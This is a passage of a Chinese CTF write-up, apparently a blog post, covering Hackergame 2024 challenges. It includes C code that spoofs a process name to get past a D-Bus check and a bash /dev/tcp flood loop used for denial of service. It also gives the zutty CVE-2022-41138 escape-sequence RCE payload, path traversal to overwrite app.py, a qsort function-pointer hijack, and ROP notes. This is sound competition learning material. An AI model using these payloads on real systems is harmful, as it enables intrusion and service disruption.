				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    flag1(proxy);
    return 0;
}
```

另外也可以用`dbus-send`shell指令，原则上一行就行。但是这个好像很难处理后两问。

```bash
#!/bin/bash
BUS_NAME="cn.edu.ustc.lug.hack.FlagService"
OBJ_PATH="/cn/edu/ustc/lug/hack/FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"

dbus-send --system  --print-reply=literal --dest=$BUS_NAME $OBJ_PATH $INTERFACE.GetFlag1 string:"Please give me flag1"
```

flag2需要通过dbus传一个文件描述符过去，但不能是个文件。我们可以本地开一个socket server，再开一个socket连接那个socket server，最后直接把socket的fd传过去，可以用`g_dbus_proxy_call_with_unix_fd_list_sync`这个函数。

> 感觉我socket编程写的挺烂的

```c
#include <unistd.h>
#include <gio/gio.h>
#include <gio-unix-2.0/gio/gunixfdlist.h>
#include <gio-unix-2.0/gio/gfiledescriptorbased.h>
#include <glib.h>

int socket_server() {
	int fd;
	struct sockaddr_in addr;
	int ret;
	char buff[8192];
	struct sockaddr_in from;
	int ok = 1;
	int len;
	socklen_t fromlen = sizeof(from);

	if ((fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
		perror("socket");
		ok = 0;
	}

	if (ok) {
		memset(&addr, 0, sizeof(addr));
		addr.sin_family = AF_INET;
		addr.sin_port = htons(8000);
		addr.sin_addr.s_addr = htonl(INADDR_ANY);
		if (bind(fd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
			perror("bind");
			ok = 0;
		}
	}

	puts("bind localhost:8000");

	if(ok && (listen(fd, QUEUE) == -1)) {
		perror("listen");
		ok = 0;
	}

	int reply_sock_fd = accept(fd, (struct sockaddr*)&from, &fromlen);
	puts("connection accepted");
	
	const char *msg = "Please give me flag2\n\x00";
	send(reply_sock_fd, msg, strlen(msg), 0);

	// puts(buff);

	if (fd >= 0) {
		close(fd);
	}

	return 0;
}

void flag2(GDBusProxy *proxy) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	
	pid_t pid = fork();
	if (pid == 0){
		// socket
		socket_server();
		return;
	}

    // GSocket *sock = g_socket_new(G_SOCKET_FAMILY_IPV4, G_SOCKET_TYPE_STREAM, G_SOCKET_PROTOCOL_TCP, &error);
	// g_assert_no_error(error);

	int sock_fd = socket(PF_INET, SOCK_STREAM, 0);
	struct sockaddr_in native_sock  = {
		.sin_family = AF_INET,
		.sin_addr.s_addr = inet_addr("127.0.0.1"),
		.sin_port = htons(8000)
	};
	int native_len = sizeof(native_sock);
	connect(sock_fd, (struct sockaddr *)&native_sock, native_len);

	// g_socket_connect(sock, g_inet_socket_address_new_from_string("127.0.0.1", 8000), NULL, &error);
	// g_assert_no_error(error);

	// int sock_fd = g_file_descriptor_based_get_fd(sock);


    GUnixFDList *fd_list = g_unix_fd_list_new_from_array  (
        &sock_fd, 1
    );

    GUnixFDList *out_fd_list = g_unix_fd_list_new  ();

    // g_socket_send (sock, );
	// g_assert_no_error(error);

	g_printf("flag2...\n");
	result = g_dbus_proxy_call_with_unix_fd_list_sync(
                    proxy,
					"GetFlag2",
					g_variant_new ("(h)", 0),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
                    fd_list,
                    &out_fd_list,
					NULL,
					&error);
	g_assert_no_error(error);

	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	// flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_efd7ee2235}
}
```

flag3则要求我们只能用一个`/proc/[pid]/comm`为getflag3的程序来请求dbus，但是分发的那个`getflag3`只能请求不能回显。但是很显然`comm`只包括了被执行的程序文件名而不包括绝对路径，我们只要把自己的程序名字改成`getflag3`就行了。我的做法是执行一堆`system`之后execve自己。看flag提示似乎直接用prctl系统调用就可以改名。总之这问方法挺多。

（另外shell执行`dbus-send`的时候comm似乎是dbus-send）

```c
void getflag3(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag3...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag3",
					g_variant_new ("()"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	
}

void flag3(GDBusProxy *proxy, char **environ) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	char * new_args[3] = {"/dev/shm/getflag3", "flag3", NULL};

	system("cp /dev/shm/executable /dev/shm/getflag3");
	system("chmod +x /dev/shm/getflag3");
	execve("/dev/shm/getflag3", new_args, environ);

	// flag{prprprprprCTL_15your_FRiEND_45cb8a68a7}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    // send_a_method_call(connection,"Hello, D-Bus");
	if (argc > 1) {
		getflag3(proxy);
	} else {
    	flag3(proxy, environ);
	}

    return 0;
}
```

## ![](https://img.shields.io/badge/general-af2447) 动画分享

这个题用rust实现了一个极简的文件HTTP服务器，然后跑在一个chroot的0.12旧版zutty终端模拟器下。我们可以提交一个程序和它交互。把服务器干死（不能正常响应或者退出）可以获得flag1，flag2则需要越权读取。

首先这个服务器是基于TcpStream的，我不太了解Rust，但这个应该是单线程的，并且后面请求文件的时候会一次把整个文件读出来。所以这样没有并发能力的服务器应该非常弱CC这种DoS攻击，我们只要popen出来一堆请求疯狂去GET chroot里面最大的那个文件就行了。一个进程就能实现这种DoS

```py
for i in range(40):
    try:
        subprocess.Popen(['bash', '-c', "while true; do echo GET /usr/lib/x86_64-linux-gnu/libLLVM-11.so.1; done >/dev/tcp/localhost/8000"], stdout=subprocess.DEVNULL)
        # subprocess.Popen(['python3', __file__, 'sub', str(i)], stdout=subprocess.DEVNULL)
        # for j in range(40):
        #     connect_only()

    except BlockingIOError:
        break
    except:
        raise
```

另外我还试了搞一堆socket只connect不发信，也能达到效果，这个应该算是SYN攻击？

但是很可惜的是，也正因为这个服务端是单线程，就算有海量请求它的内存占用也不会很大，所以不会触发OOM Killer，除此外也想不到别的方式能杀死这个进程了。

为什么我这么执着于杀死这个rust server，是因为我知道zutty这个版本有一个RCE的洞，即CVE-2022-41138（是这个项目唯一一个CVE），甚至gentoo上能找到poc，如果有一个程序向终端模拟器输出了下面的内容，就会触发`id`执行：

```
\x1bP$q\nid;\n\x1b\\
```

前面的`\x1bP$q`是DECRQSS (Request Status String)前缀，但是zutty判断前缀后面内容不合法时，会把这部分内容回显，也就是漏到终端模拟器跑的程序里面。假如这里面藏了换行符，那么漏下去的内容就作为shell命令执行。

那么对应到fileserver，就是每次请求的时候会把请求log到标准输出中。虽然fileserver是以`\n`分隔请求，但是我试了试zutty用`\r`也可以RCE，而这就不会被fileserver切开了。

但是这有个前提，就是终端模拟器里跑的得是个shell。如果是别的程序，那其实就是以stdin输入，比如如果里面跑的是python交互，那就得到的是python里那个id函数。如果是rust写的fileserver，则什么也不会发生，因为没有任何处理stdin输入的请求。

那么假设有办法把fileserver杀死了，那么之前stdin缓冲区的输入会全部进入shell中触发命令执行。因为退出了chroot进程，这时执行命令的就是普通的root shell，就可以随意读文件或者改权限了。

所以看看大伙怎么把这个服务器搞死。感觉要大腿拍烂了。

> 赛后：大腿真拍烂了，原来ctrl-C 在终端模拟器里就是\x03这个字符。但凡我把non printable character都遍历一边也不至于

## ![](https://img.shields.io/badge/math-90b452) 关灯
前三问直接z3一把梭了

第4题应该是要好好做了。1D关灯题应该本质上等价于一个带状矩阵的布尔线性方程组求解（异或和与分别为加法和乘法），扩展到3D可能拓展为6阶张量，或者还是一个百万大小的稀疏矩阵线性方程组求解。如果能提前求出逆的话应该可以达到它那个速度需要的要求。

## ![](https://img.shields.io/badge/web-0c4d72) 禁止内卷

这个题可以上传一个json，里面是个数组，服务端会算上传数组和目标数组的方差。我们可以上传两个文件，在某一个位置上差1，就可以通过两轮方差的差定出这个位置的内容。但是很不巧服务端会把答案里的负数取成0，所以这种方法会丢失信息。

所以这题玩的其实是目录穿越。

```py
filepath = os.path.join(UPLOAD_DIR, filename)
```
当filename可控时，且不说可以`..`接出来，如果filename以`/`开头会直接忽略`UPLOAD_DIR`把filename视为绝对路径，是不是很神奇？之后因为这个题flask还开了reload，可以直接覆盖`app.py`拿shell。

## ![](https://img.shields.io/badge/binary-c46bf9) 我们的快排確有問題

这个题是玩stdlib的qsort的，其中比较函数设计有缺陷，当两个数有一个小于2.5时，必然会返回前一个小于后一个的结论。

```c
int whos_jipiei_is_better(const void *const pa, const void *const pb) {
    const double a = *(const double *)pa;
    const double b = *(const double *)pb;

    if (!a || !b) {
        return 0;
    }
    if (a < 2.5 || b < 2.5) {
        puts("With such grades, how can we sort them?");
        return -1;
    }
    if (a < b)
        return -1;
    if (a > b)
        return 1;
    return 0;
}

```

首先手玩，加入少量小于2.5的数，会发现当输入的待排序数组长度大于128时，高概率会段错误。

qsort大致原理是把比中间某个数大和某个数小的排到两边，然后两边分别以一半的数组大小进行内部排序。因为已知右边这组所有的数必然会大于中间的数，所以qsort认为右边这组最小的数遇到了原来中间的数一定会停下来，所以没做边界检查，谁知道结果会不停。

不停的结果就是有的操作数会滑到bss段的上一个变量，也就是`gms.sort_func`，用于排序的函数指针。恰好，我们的后门函数地址转换为浮点数，也是小于2.5的。为了防止段错误，这种操作最多只能进行一次。

所以这样的数组刚好可以导致函数指针被覆盖，但是又不会报段错误。

```py
STU_NUM = 128
STU_GPA = [5 for  i in range(STU_NUM)]
STU_GPA[123] = long_to_double(real_backdoor)
```

这里后面我们用system的plt表，然后当然作为排序算法是可以传参数进去的，第一次调用的参数就是最中间那个数。我们把那里存成bss的地址，然后在输入数组里埋下一个getflag程序就行了（不知道为什么/bin/sh不行，可能是缓存区没关的过）

## ![](https://img.shields.io/badge/binary-c46bf9) 哈希三碰撞
其实算是逆向+密码学。只做了第一问，找出三个SHA256后4个字节完全相同的8字节串。生日攻击算1000000个SHA256就有大量三碰撞了。

二三问完全没思路。

> 赛后：去找区块链硬分叉。思维要活跃，这个题其实比较misc
> 然后，把反编译喂给AI生成py代码是什么神奇操作我去。思维要活跃
>
> https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E5%93%88%E5%B8%8C%E4%B8%89%E7%A2%B0%E6%92%9E/chat2.md

## ![](https://img.shields.io/badge/binary-c46bf9) 新生赛上的零解题

这个题有点意思，涉及了intel尚未推广的CET ROP缓解措施，影子栈SHSTK和IBT。

第一问给了一个带影子栈的C++程序，但是这个影子栈不是CPU层面，而是通过C++的异常处理机制在软件上实现的，影子栈位于一个mmap段，地址已知。并且因为是纯手工实现，甚至没有编译器支持，所以影子栈的判定位于canary判定之前。

这样第一个问题就是，即使我们破坏了canary，因为影子栈对返回地址检测更早，并且异常处理会跳过后面的代码，所以事实上会导致canary失效。另外通过对`old_rbp`和返回地址的恰当处理，我们可以让异常处理机制误以为我们在其他异常块里，并且可以导致一次栈迁移劫持程序流。具体来说：

- old_rbp: 异常结束后栈迁移所在位置。值+8是异常块结束后要返回的地址
- ret_addr: 放在哪个try块里，就决定了当前要进入哪个异常块。

所以可以第一轮直接把栈迁移到影子栈的那块mmap里，等效于知道了栈地址。第二轮栈溢出就可以直接写ROP链了，然后返回地址放在ROP的开头。ROP链构造可以用`ropper`


第二问需要配intel sde模拟环境，我一直配不太好，再加上pwntools特别卡，就先不研究了。

> 第二问绕过canary: 可以直接+跳过scanf
> 绕过影子栈：intel sde的影子栈可读可写，可以直接pwndbg搜索内存，vmmap可看偏移

## ![](https://img.shields.io/badge/AI-8b9164) 那个题目特别长的AI题

总之是某个千问1.5B大模型的输出，但是把特定字母（第一问是hackergame，第二问更多还包括些空格）都替换为x，我们需要还原原文（sha256给定）

第一问借助了他们puzzle hunt玩家特别喜欢的[nutrimatic](https://nutrimatic.org/2024/)，写了个简单查询脚本：
```py
client = requests.session()

HOST = 'https://nutrimatic.org/2024/'
alpha = '[hackergamex]'

while True:
    s = input('> ')
    if s == 'exit':
        break
    print(s.replace('x', alpha))
    resp = client.get(HOST, params={'q': s.replace('x', alpha)})
    soup = BeautifulSoup(resp.text, 'lxml')

    for ele in soup.select('span')[:10]:
        print(ele.text)
```

结合语义基本上能做出绝大多数单词，可能只有不到5个单词会有一定歧义。所以我还做了一个hash检查，把歧义单词记录下来，随机替换后计算hash，说不定就能和结果对上。我最后卡的两个词一个是`stakes are high`，一个是`race/game was on`。

- In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
- 
- In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.

----

还有几个题做了半天没出结果，比如那个less题那个cat题那个ZFS题。准备看官方题解了。

## LESS

前半思路基本全对，就是lesspipe加扩展名。但是真的只差一个搜索，比如搜lesspipe RCE。

但是后半的扩展名程序用错了，我拿gzip试了半天，但这个最多只能造个压缩炸弹把less给OOM了，并不能造成攻击。但是看题解，用ar这个打包程序的命令，利用`ar @.a`把`.a`作为一个额外读入options的文件，然后`ar`本身可以用`--plugin`加载任意动态链接库，所以只要传一个包含`onload`函数的动态库就可以getshell。

https://seclists.org/fulldisclosure/2014/Nov/74
https://seclists.org/oss-sec/2014/q4/1027